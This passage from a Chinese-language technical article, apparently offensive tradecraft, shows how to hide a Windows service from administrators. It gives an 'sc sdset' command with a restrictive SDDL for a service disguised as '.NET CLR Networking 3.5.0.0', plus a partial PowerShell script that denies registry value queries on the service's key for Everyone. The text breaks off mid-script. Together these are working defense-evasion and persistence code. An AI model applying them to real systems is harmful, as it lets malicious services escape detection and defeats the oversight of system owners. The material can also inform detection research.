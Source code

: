 windows中的安全对象都使用SDDL字符串来表示访问对象对于安全对象的权限，服务自然也存在其SDDL，并且sc命令中可以设置SDDL。那么通过更改SDDL可以修改服务的各种权限来隐藏服务：

    
    
    sc sdset ".NET CLR Networking 3.5.0.0" "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210913135657.png)

然后通过sc与get-server查找服务均无结果：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210913135659.png)

并且服务也不再显示：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210913135700.png)

在知道服务名的前提下查询会显示拒绝访问：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210913135703.png)

但这样做有一个问题：在注册表中很容易看到异常value。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210913135705.png)

# 修改注册表ACL

我们可以通过修改注册表的DACL来拒绝对值的查询，达到隐藏异常值的效果。

这里给出一个通过powershell修改注册表项的访问权限的简单脚本：

    
    
    function Server-Sddl-Change{  
    [CmdletBinding()]  
        param  
        (  
            [parameter(Mandatory=$false)][String]$Name  
        )  
    $ROOT = "HKLM:\SYSTEM\CurrentControlSet\Services\"  
    $S = $ROOT+$NAME  
    $acl = Get-Acl $S  
    $acl.SetAccessRuleProtection($true, $false)  
      
    $person = [System.Security.Principal.NTAccount]"Everyone"  
    $access = [System.Security.AccessControl.RegistryRights]"QueryValues"  
    $inheritance = [System.Security.AccessControl.InheritanceFlags]"None"  
    $propagation = [System.Security.AccessControl.PropagationFlags]"None"  
    $type = [System.Security.AccessControl.AccessControlType]"Deny"  
    $rule = New-Object System.Security.AccessControl.RegistryAccessRule( `  
    $person,$access,$inheritance,$propagation,$type)  
    $acl.AddAccessRule($rule)  
      
    $person = [System.Security.Principal.NTAccount]"Everyone"  
    $access = [System.Security.AccessControl.RegistryRights]"SetValue,CreateSubKey,EnumerateSubKeys,Notify,CreateLink,Delete,ReadPermissions,WriteKey,ExecuteKey,ReadKey,ChangePermissions,TakeOwnership"  
    $inheritance = [System.Security.AccessControl.InheritanceFlags]"None"  
    $propagation = [System.Security.AccessControl.PropagationFlags]"None"  
    $type = [System.Security.AccessControl.AccessControlType]"Allow"  
    $rule = New-Object System.Security.AccessControl.RegistryAccessRule( `  
    $person,$access,$inheritance,$propagation,$type)  
    $acl.AddAccessRule($rule)  
      
